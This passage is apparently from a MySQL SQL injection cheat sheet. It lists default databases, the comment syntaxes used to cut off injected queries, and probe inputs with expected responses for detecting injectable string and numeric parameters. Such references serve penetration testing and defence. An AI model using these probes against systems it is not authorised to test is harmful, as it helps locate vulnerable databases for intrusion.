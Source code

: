 
## MYSQL Default Databases

| Name               | Description              |
|--------------------|--------------------------|
| mysql              | Requires root privileges |
| information_schema | Available from version 5 and higher |
	

## MYSQL comments

| Type                       | Description                       |
|----------------------------|-----------------------------------|
| `#`                        | Hash comment                      |
| `/* MYSQL Comment */`      | C-style comment                   |
| `/*! MYSQL Special SQL */` | Special SQL                       |
| `/*!32302 10*/`            | Comment for MYSQL version 3.23.02 |
| `-- -`                     | SQL comment                       |
| `;%00`                     | Nullbyte                          |
| \`                         | Backtick                          |


## MYSQL Testing Injection

* **Strings**: Query like `SELECT * FROM Table WHERE id = 'FUZZ';`
    ```
    '	False
    ''	True
    "	False
    ""	True
    \	False
    \\	True
    ```

* **Numeric**: Query like `SELECT * FROM Table WHERE id = FUZZ;`
    ```ps1
    AND 1	    True
    AND 0	    False
    AND true	True
    AND false	False
    1-false	    Returns 1 if vulnerable
    1-true	    Returns 0 if vulnerable
    1*56	    Returns 56 if vulnerable
    1*56	    Returns 1 if not vulnerable
    ```

